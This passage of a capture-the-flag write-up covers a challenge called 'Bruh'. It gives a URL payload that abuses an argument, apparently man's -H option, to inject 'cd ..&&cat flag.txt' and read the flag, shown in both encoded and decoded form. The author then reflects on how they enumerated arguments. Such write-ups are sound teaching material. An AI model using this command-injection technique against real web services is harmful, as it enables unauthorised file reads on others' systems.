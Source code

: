 #### Bruh

I found this one funny for some reason. The one thing I love about CTFs is that sometimes you'll find a solution that seems very obvious but completely crosses your mind. No need for fancy expansions!

![Bruh Payload 2](./bruh_payload_2.png)

![Bruh Payload](./bruh_payload.png)

```
http://challenges.oceaniacc.com:5001/-/-Hcd%20..%26%26cat%20flag.txt/-/man
```

Decoded URL:
```
http://challenges.oceaniacc.com:5001/-/-Hcd ..&&cat flag.txt/-/man
```

Traverse to parent directory and read the flag... As simple as it can get (as far as I know)!

![Bruh Payload Output](./bruh_payload_output.png)


Sorry if I missed out on any other payloads. Feel free to let me know of any other ideas in the comments and I'll add them in if they work!

### Post challenge thoughts

The reason why I couldn't solve this challenge was due to my methodology when enumerating what arguments I could abuse. I lacked the experience to identify certain characteristics of arguments that would achieve the objective of reading the flag. In order to improve in this aspect, I have developed a blog to explore enumerating a binary's options and identifying potential risks to arguments in binaries [here (WIP)]().
